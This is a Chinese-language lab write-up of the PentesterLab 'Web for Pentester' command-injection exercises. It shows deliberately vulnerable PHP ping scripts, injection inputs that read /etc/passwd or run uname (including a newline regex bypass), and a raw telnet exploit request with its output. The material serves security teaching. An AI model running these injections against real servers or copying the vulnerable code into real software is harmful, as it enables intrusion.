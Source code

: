 ```yaml
---
title: 
categories:
- web
tags:
- web
---
```

常见web漏洞
===
[资料下载：pentesterLab download](https://pentesterlab.com/exercises/web_for_pentester/)

---
![常见web漏洞](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/%E5%B8%B8%E8%A7%81web%E6%BC%8F%E6%B4%9E.png)

## 命令执行：
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/2.PNG)
#### 漏洞代码：
```
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```
system()函数，执行系统命令，
ping -c 2 ip，由于ip是客户端可控，导致命令执行。

---

#### 漏洞代码二：
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/3.PNG)
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
在执行命令之前，先正则表达式判断。

127.0.0.1;cat /etc/passwd
不满足正则表达式，所以返回无效的ip地址。

```
127.0.0.1
cat /etc/passwd
```
如果注入上面这样的代码，就会判断127.0.0.1是有效的ip，然后执行system函数

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/4.PNG)
将\n换行符url编码。

---

#### 漏洞代码三：
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
如果ip参数为正确的地址，则执行system()，否则就执行Location: example3.php?ip=127.0.0.1

- 效果展示
如果是有效地址，则ping给出的地址，如果是无效地址，就会ping 127.0.0.1。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/5.PNG)

- 漏洞利用
原理：由于在正则表达式判断ip地址时候，如果不符合，没有中止运行，而是302跳转到“Location: example3.php?ip=127.0.0.1”。
所以可以用nc或者telnet，观察到命令的执行结果。
```
telnet 192.168.2.131 80
GET /commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0
```
```
HTTP/1.1 302 Found
Date: Tue, 13 Nov 2018 08:52:44 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze15
X-XSS-Protection: 0
Location: example3.php?ip=127.0.0.1
Vary: Accept-Encoding
Content-Length: 1535
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>PentesterLab &raquo; Web for Pentester</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Web For Pentester">
    <meta name="author" content="Louis Nyffenegger (louis@pentesterlab.com)">

    <!-- Le styles -->
    <link href="/css/bootstrap.css" rel="stylesheet">

    <style type="text/css">
      body {
        padding-top: 60px;
        padding-bottom: 40px;
      }
    </style>
    <link href="/css/bootstrap-responsive.css" rel="stylesheet">

  </head>

  <body>

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="https://pentesterlab.com/">PentesterLab.com</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="/">Home</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



<pre>
Linux debian 2.6.32-5-686 #1 SMP Fri May 10 08:33:48 UTC 2013 i686 GNU/Linux
</pre>
      <footer>
        <p>&copy; PentesterLab 2013</p>
      </footer>

    </div> <!-- /container -->


  </body>
</html>

```
## 命令执行的函数
system、exec、passthru、shell_exec、popen、proc_open、pcntl_exec

[参考文档：命令执行函数](http://php.net/manual/zh/ref.exec.php)

## 命令执行漏洞的危害
可以使得攻击者反弹一个shell。
例如[LTR Scene（php写入一句话+sudoer提权）](https://whale3070.github.io/training/2018/11/10/x/)

[G0rmint（一句话写入log 提权）](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)